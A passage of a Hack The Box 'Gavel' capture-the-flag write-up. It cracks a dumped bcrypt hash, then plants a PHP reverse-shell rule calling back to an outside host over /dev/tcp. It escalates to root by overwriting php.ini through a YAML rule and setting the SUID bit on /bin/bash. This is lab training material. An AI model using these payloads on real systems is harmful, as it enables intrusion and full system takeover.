            <div class="d-flex justify-content-between align-items-center mb-4">
                <h1 class="h3 text-gray-800"><i class="fas fa-box-open"></i> Inventory of foobar</h1>
                <h1 class="h5 text-gray-800 mb-0"><i class="fas fa-coins"></i> <strong>38,000</strong></h1>
            </div>
            <hr>
            <div class="d-flex justify-content-between align-items-center mb-3">
                <div class="flex-grow-1 mr-3">
                                            <div class="alert alert-success mb-0">
                            Your inventory.
                        </div>
                                    </div>
                <form action="" method="POST" class="form-inline" id="sortForm">
                    <label for="sort" class="mr-2 text-dark"><strong>Sort by:</strong></label>
                    <input type="hidden" name="user_id" value="2">
                    <select name="sort" id="sort" class="form-control form-control-sm mr-2" onchange="document.getElementById('sortForm').submit();">
                        <option value="item_name" >Name</option>
                        <option value="quantity" >Quantity</option>
                    </select>
                </form>
            </div>
            <div class="row">
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>auctioneer:$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>foobar:$2y$10$v6q./WSkTEKW.QSoPZzp7eze4A8EsihWZI/XFvk6BEkJ3Lm3kxtpu</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>barfoo:$2y$10$0jDeOTGZE8Z6goDc7g6MEu9ghWueWBdK9KuRyX4PS51q3ADjrt7g.</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                            </div>
        </div>
    </div>
    <script src="/assets/vendor/jquery/jquery.min.js"></script>
    <script src="/assets/vendor/bootstrap/js/bootstrap.bundle.min.js"></script>
    <script src="/assets/vendor/jquery-easing/jquery.easing.min.js"></script>
    <script src="/assets/js/sb-admin-2.min.js"></script>
</body>
</html>

```

| Hash                                                         |
| ------------------------------------------------------------ |
| $2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS |

## Cracking the Hash using John the Ripper

We threw the `hash` into `John the Ripper` and after a few seconds we got the `password` in `cleartext`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Gavel/files]
└─$ cat hash 
$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Gavel/files]
└─$ sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
midnight1        (?)     
1g 0:00:00:24 DONE (2025-11-30 12:10) 0.04145g/s 126.8p/s 126.8c/s 126.8C/s iamcool..memories
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username   | Password  |
| ---------- | --------- |
| auctioneer | midnight1 |

## Initial Access

### Auctioneer Dashboard

With access to the `Dashboard` as `auctioneer` we had the `Admin Panel` unlocked to update `rules` to insert our `payload`.



```shell
return system('bash -c "/bin/bash -i >& /dev/tcp/10.10.16.97/9001 0>&1"');
```





After we updated the `rule` we went to the `Bidding` tab and `bit` on the `object` for which we edited the `rule` to `execute` our `payload`.



```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.97] from (UNKNOWN) [10.129.51.64] 56634
bash: cannot set terminal process group (1037): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gavel:/var/www/html/gavel/includes$
```

## Enumeration (www-data)

A quick `enumeration` of the user `www-data` revealed that the user `auctioneer` was also present on the box itself.

```shell
www-data@gavel:/var/www/html/gavel/includes$ id        
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```shell
www-data@gavel:/var/www/html/gavel/includes$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
syslog:x:106:113::/home/syslog:/usr/sbin/nologin
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
tss:x:109:116:TPM software stack,,,:/var/lib/tpm:/bin/false
fwupd-refresh:x:111:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
vboxadd:x:998:1::/var/run/vboxadd:/bin/false
mysql:x:110:119:MySQL Server,,,:/nonexistent:/bin/false
auctioneer:x:1001:1002::/home/auctioneer:/bin/bash
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
```

| Username   |
| ---------- |
| auctioneer |

## Privilege Escalation to auctioneer

We performed the next `Privilege Escalation` by simply switching to the user using his `password` which we `dumped` out of the `database`.

| Username   | Password  |
| ---------- | --------- |
| auctioneer | midnight1 |

```shell
www-data@gavel:/var/www/html/gavel/includes$ su auctioneer
su auctioneer
Password: midnight1
```

We stabilized our shell, grabbed the `user.txt` and moved on.

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
auctioneer@gavel:~$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

auctioneer@gavel:~$ 
auctioneer@gavel:~$ export XTERM=xterm
auctioneer@gavel:~$
```

## user.txt

```shell
auctioneer@gavel:~$ cat user.txt
da6f6a5875d3d2ac9d1d51be27fec9d6
```

## Enumeration (auctioneer)

As the user `auctioneer` we performed a quick `enumeration` of our `group memberships` as well as on our `sudo` capabilities. The group of `gavel-seller` stood out. Therefore we checked `/opt` and found the `gavel` application.

```shell
auctioneer@gavel:~$ id
uid=1001(auctioneer) gid=1002(auctioneer) groups=1002(auctioneer),1001(gavel-seller)
```

```shell
auctioneer@gavel:~$ sudo -l
[sudo] password for auctioneer: 
Sorry, user auctioneer may not run sudo on gavel.
```

```shell
auctioneer@gavel:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov  5 12:46 .
drwxr-xr-x 19 root root 4096 Nov  5 12:46 ..
drwxr-xr-x  4 root root 4096 Nov  5 12:46 gavel
```

The directory contained a few files but the interesting ones were the `sample.yaml` and the `php.ini`.

```shell
auctioneer@gavel:/opt/gavel$ ls -la
total 56
drwxr-xr-x 4 root root  4096 Nov  5 12:46 .
drwxr-xr-x 3 root root  4096 Nov  5 12:46 ..
drwxr-xr-x 3 root root  4096 Nov  5 12:46 .config
-rwxr-xr-- 1 root root 35992 Oct  3 19:35 gaveld
-rw-r--r-- 1 root root   364 Sep 20 14:54 sample.yaml
drwxr-x--- 2 root root  4096 Nov 29 23:10 submission
```

The `sample.yaml` contained basic configuration information for the application and it's items.

```shell
auctioneer@gavel:/opt/gavel$ cat sample.yaml 
---
item:
  name: "Dragon's Feathered Hat"
  description: "A flamboyant hat rumored to make dragons jealous."
  image: "https://example.com/dragon_hat.png"
  price: 10000
  rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
  rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
```

The `php.ini` held the configuration which `PHP Function` were allowed and which weren't.

```shell
auctioneer@gavel:/opt/gavel/.config/php$ cat php.ini 
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=Off
```

To interact with `gavel` we had the `gave-util` on our hands. So our idea of `Privilege Escalation` to `root` was to `overwrite` the `php.ini` to `enable` all `functions` and then `load` a malicious `.yaml` file to `execute commands` on behalf of `root`.

```shell
auctioneer@gavel:/opt/gavel$ gavel-util --help
Usage: gavel-util <cmd> [options]
Commands:
  submit <file>           Submit new items (YAML format)
  stats                   Show Auction stats
  invoice                 Request invoice
```

## Privilege Escalation to root

We created a directory within `/tmp` because `/dev/shm` was for some reason not allowed to use.

```shell
auctioneer@gavel:/tmp$ mkdir privesc
```

```shell
auctioneer@gavel:/tmp$ cd privesc/
```

Then we took the `sample.yaml` and simply added a `pipe (|)` as `rule` containing the `clear command` for the `php.ini`.

```shell
cat > ini_overwrite.yaml << 'EOF'
name: "Dragon's Feathered Hat"
description: "A flamboyant hat rumored to make dragons jealous."
image: "https://example.com/dragon_hat.png"
price: 10000
rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
rule: |
  file_put_contents('/opt/gavel/.config/php/php.ini', "engine=On\ndisplay_errors=On\nopen_basedir=/\ndisable_functions=\n");
  return false;
EOF
```

```shell
auctioneer@gavel:/tmp/privesc$ cat > ini_overwrite.yaml << 'EOF'
> name: "Dragon's Feathered Hat"
> description: "A flamboyant hat rumored to make dragons jealous."
> image: "https://example.com/dragon_hat.png"
> price: 10000
<vious bid and sado isn't allowed to buy this item."
> rule: |
<_errors=On\nopen_basedir=/\ndisable_functions=\n");
>   return false;
> EOF
```

After creating we `submitted` the file via `gavel-util`.

```shell
auctioneer@gavel:/tmp/privesc$ gavel-util submit ini_overwrite.yaml
Item submitted for review in next auction
```

Next step was to reuse the `template` once more and to add the actual `command` which we wanted to get executed. In this case we wanted to set the `SUID Bit` on `/bin/bash`.

```shell
cat > privesc.yaml << 'EOF'
name: "Dragon's Feathered Hat"
description: "A flamboyant hat rumored to make dragons jealous."
image: "https://example.com/dragon_hat.png"
price: 10000
rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
rule: |
  system("chmod u+s /bin/bash");
  return false;
EOF
```

```shell
auctioneer@gavel:/tmp/privesc3$ cat > privesc.yaml << 'EOF'
> name: "Dragon's Feathered Hat"
> description: "A flamboyant hat rumored to make dragons jealous."
> image: "https://example.com/dragon_hat.png"
> price: 10000
<vious bid and sado isn't allowed to buy this item."
> rule: |
>   system("chmod u+s /bin/bash");
>   return false;
> EOF
```

We repeated the procedure and got the `SUID Bit` set immediately on `/bin/bash`.

```shell
auctioneer@gavel:/tmp/privesc$ gavel-util submit privesc.yaml
Item submitted for review in next auction
```

```shell
auctioneer@gavel:/tmp/privesc3$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

As step all what was left was to use the `-p` flag to `preserve` the `Effective User ID (EUID)` and `Effective Group ID (EGID)` of the binary when using it.

```shell
auctioneer@gavel:/tmp/privesc$ /bin/bash -p
bash-5.1#
```

## root.txt

```shell
bash-5.1# cat root.txt
8c2f2e41dde789aeb49f6f131b288a31
```
